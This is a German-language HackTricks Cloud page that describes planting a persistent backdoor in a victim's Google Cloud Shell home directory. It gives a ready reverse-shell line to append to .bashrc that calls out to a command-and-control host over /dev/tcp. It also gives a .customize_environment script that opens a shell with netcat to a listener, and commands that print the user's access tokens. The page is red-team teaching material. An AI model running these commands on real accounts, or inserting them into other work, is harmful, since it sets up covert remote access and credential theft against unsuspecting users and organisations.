 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Cloud Shell

Für weitere Informationen siehe:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistente Hintertür

[**Google Cloud Shell**](https://cloud.google.com/shell/) bietet dir direkten Zugriff auf deine Cloud-Ressourcen über die Befehlszeile direkt aus deinem Browser, ohne damit verbundene Kosten.

Du kannst auf Googles Cloud Shell über die **Web-Konsole** oder durch Ausführen von **`gcloud cloud-shell ssh`** zugreifen.

Diese Konsole hat einige interessante Fähigkeiten für Angreifer:

1. **Jeder Google-Nutzer mit Zugriff auf Google Cloud** hat Zugriff auf eine vollständig authentifizierte Cloud Shell-Instanz (Dienstkonten können dies, selbst wenn sie Eigentümer der Organisation sind).
2. Diese Instanz wird **ihr Home-Verzeichnis für mindestens 120 Tage beibehalten**, wenn keine Aktivität stattfindet.
3. Es gibt **keine Möglichkeiten für eine Organisation, die Aktivität** dieser Instanz zu überwachen.

Das bedeutet im Grunde, dass ein Angreifer eine Hintertür im Home-Verzeichnis des Nutzers platzieren kann, und solange der Nutzer alle 120 Tage mindestens eine Verbindung zur GC Shell herstellt, wird die Hintertür überleben und der Angreifer erhält jedes Mal eine Shell, wenn sie ausgeführt wird, einfach indem er: 

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Es gibt eine weitere Datei im Home-Ordner namens **`.customize_environment`**, die, falls sie existiert, **jedes Mal** ausgeführt wird, wenn der Benutzer auf die **cloud shell** zugreift (wie in der vorherigen Technik). Fügen Sie einfach die vorherige Hintertür oder eine ähnliche wie die folgende ein, um die Persistenz aufrechtzuerhalten, solange der Benutzer die cloud shell "häufig" verwendet:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Es ist wichtig zu beachten, dass beim **ersten Mal, wenn eine Aktion, die eine Authentifizierung erfordert, ausgeführt wird**, ein Pop-up-Autorisierungsfenster im Browser des Benutzers erscheint. Dieses Fenster muss akzeptiert werden, bevor der Befehl ausgeführt werden kann. Wenn ein unerwartetes Pop-up erscheint, könnte dies Verdacht erregen und potenziell die verwendete Persistenzmethode gefährden.
{% endhint %}

Dies ist das Pop-up von der Ausführung von `gcloud projects list` aus der Cloud-Shell (als Angreifer) im Benutzer-Sitzung des Browsers gesehen:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Wenn der Benutzer jedoch die Cloud-Shell aktiv genutzt hat, erscheint das Pop-up nicht und Sie können **Tokens des Benutzers mit**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Wie die SSH-Verbindung hergestellt wird

Grundsätzlich werden diese 3 API-Aufrufe verwendet:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (wird Sie auffordern, Ihren lokal erstellten öffentlichen Schlüssel hinzuzufügen)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (wird Sie auffordern, die Instanz zu starten)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (wird Ihnen die IP des Google Cloud Shell mitteilen)

Weitere Informationen finden Sie unter [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referenzen

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
